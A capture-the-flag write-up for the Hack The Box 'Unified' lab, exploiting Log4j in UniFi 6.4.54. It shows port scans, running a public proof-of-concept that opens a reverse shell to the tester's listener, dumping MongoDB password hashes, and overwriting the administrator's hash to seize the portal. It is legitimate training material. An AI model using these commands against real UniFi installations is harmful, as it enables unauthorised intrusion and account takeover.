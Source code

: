 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Unified

## Summary

Part of Starting Point's Tier 2 boxes, [Unified](https://app.hackthebox.com/starting-point) revolves around exploiting the **Log4j vulnerability**. Securing the initial foothold entails identifying the application's version through meticulous **enumeration of the web server**. Subsequently, **leveraging a readily available** [**PoC**](#user-content-fn-1)[^1] allows us to gain access to the application using the `administrator` account. Further reconnaissance within the site exposes **plaintext SSH credentials**, allowing us to root the box.

<table><thead><tr><th width="88" align="right">Step</th><th width="249">Action</th><th width="124">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Web app's version</td></tr><tr><td align="right">2</td><td>Researching</td><td>Browser</td><td>Log4j vulnerability &#x26; <a data-footnote-ref href="#user-content-fn-2">PoC</a></td></tr><tr><td align="right">3</td><td>Using <a data-footnote-ref href="#user-content-fn-3">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-4">PoC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Updating admin's password</td><td><a href="https://linux.die.net/man/1/mongo">mongo</a></td><td>Web application credentials</td></tr><tr><td align="right">5</td><td>Web server enumeration</td><td>Browser</td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.

{% code overflow="wrap" %}
```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```
{% endcode %}

Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page which also include its version: `6.4.54` (Figure 1).

<figure><img src="../../.gitbook/assets/unified_home.png" alt=""><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^5] (Figure 2.2).

<figure><img src="../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^6] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

### Shell Upgrade

Before searching for the flag, we can first upgrade our shell (Figure 4).

{% hint style="info" %}
Check more about shell upgrades [here](../../tools/shells/upgrade.md).
{% endhint %}

```bash
# Checking if script is available
which script
# Spawning the bash shell
script /dev/null -c /bin/bash
# Backgrounding the shell (CTRL+Z)
^Z
# Checking the configurations of our local shell
echo $TERM && stty size
# Disabling echo, passing I/O straight through, and foregrounding the shell
stty raw -echo; fg
# Setting terminals dimensions
stty rows 51 cols 209
# Exproting terminal
export TERM=xterm
```

<figure><img src="../../.gitbook/assets/unified_shell_upg.png" alt=""><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

We can now read the `user.txt` flag within the home directory of the sole user of the box.

```bash
# Checking users
unifi@unified:/unifi/data$ ls /home
michael
# Reading the user flag
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^7] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91"}})'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_admin_login.png" alt=""><figcaption><p>Figure 7: Logging in as <code>administrator</code>.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 8) which we can use right away and read the `root.txt` flag 🚩 (Figure 9).

<figure><img src="../../.gitbook/assets/unified_root_pass.png" alt=""><figcaption><p>Figure 8: Enumerating the <code>root</code>'s SSH password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_root.png" alt=""><figcaption><p>Figure 9: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Proof of Concept

[^3]: Proof of Concept

[^4]: Proof of Concept

[^5]: Proof of Concept

[^6]: Remote Command Execution

[^7]: Database Management System
